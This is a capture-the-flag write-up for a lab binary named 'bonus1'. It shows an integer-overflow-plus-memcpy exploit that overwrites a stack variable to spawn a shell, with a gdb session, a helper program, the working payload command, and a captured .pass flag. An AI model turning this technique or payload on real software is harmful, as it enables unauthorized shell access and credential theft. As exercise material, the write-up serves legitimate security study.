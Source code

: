 ## Over and under the flow (bonus1)

This [binary](source.c) takes at least an argument or it segfaults. The
[atoi](https://linux.die.net/man/3/atoi) function is called on it. The result,
let's call it _n_ must be less than 10 for the second argument to be copied
into _main_'s local buffer. Finally _n_ must be equal to 0x574f4c46 for
[execl](https://linux.die.net/man/3/execl) to open a shell.

A simple [memcpy](https://linux.die.net/man/3/memcpy) is used to copy the second
argument's contents into _main_'s 40 bytes _buffer_. The size parameter passed
to is is _n_ * 4. So the name of the game here is to find a value for that will
pass the first test (be less than 10) and that multiplied by 4 will overflow to
a value big enougth for overwring _n_ itself with the value it is compared
against.

First, skip the first test and find a working payload for the second argument:

```shell
# run gdb on the binary
gdb ./bonus1
# see the main
(gdb) disass main
Dump of assembler code for function main:
...
0x08048468 <+68>:    mov    %ecx,0x8(%esp)
0x0804846c <+72>:    mov    %edx,0x4(%esp)
0x08048470 <+76>:    mov    %eax,(%esp)
0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
...
End of assembler dump.
# break just before the memcpy call to see its arguments
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
# run with 1 as a value for n and what should be our payload
(gdb) run 1 `python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]`
Starting program: /home/user/bonus1/bonus1 1 `python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]'`

Breakpoint 1, 0x08048473 in main ()
# the destination buffer
(gdb) x $eax
0xbffffaf4:     0x00080000
# the second argument (argv[2])
(gdb) x $edx
0xbffffd2a:     0x61616161
# the n value * 4 for the size
(gdb) x $ecx
0x4:    Cannot access memory at address 0x4
# which is located here
(gdb) x $esp + 8
0xbffffae8:     0x00000004
# if we replace it with the length of our payload
(gdb) set *0xbffffae8 = 44
(gdb) x $esp + 8
0xbffffae8:     0x0000002c
# and run
(gdb) c
Continuing.
# we're in
process 22942 is executing new program: /bin/dash
```

Now that we our payload works, let's get the value of n we need with the help
of this little program:

```C
#include <stdio.h>
#include <stdlib.h>

int	main(int argc, char **argv)
{
	int	n = 0;

	if (argc > 1)
		n = atoi(argv[1]);
	else
		for (n = -1; n < 0 && n * 4 != 44; --n);
	printf("%d * 4 = %d\n", n, n * 4);
	return (0);
}
```

It will simply loop on negative values starting with -1 (which way too high by
the way, since it will not undflow untin at least INT32\_MAX/4, but who cares?)
and stop when it finds a negative value that multiplied by 4 will overflow to
44, which is the number of bytes we want to write to change _n_'s value.

```shell
# compile the program
gcc underflow.c
# run it
./a.out
-1073741813 * 4 = 44
```

And there we go. A value that will both pass the first test and make it so the
payload is written as it should.

```shell
# set the arguments
N=-1073741813
PAYLOAD=$(python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]')
# run the program
./bonus1 $N $PAYLOAD
# enjoy your shell
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

And we're done!
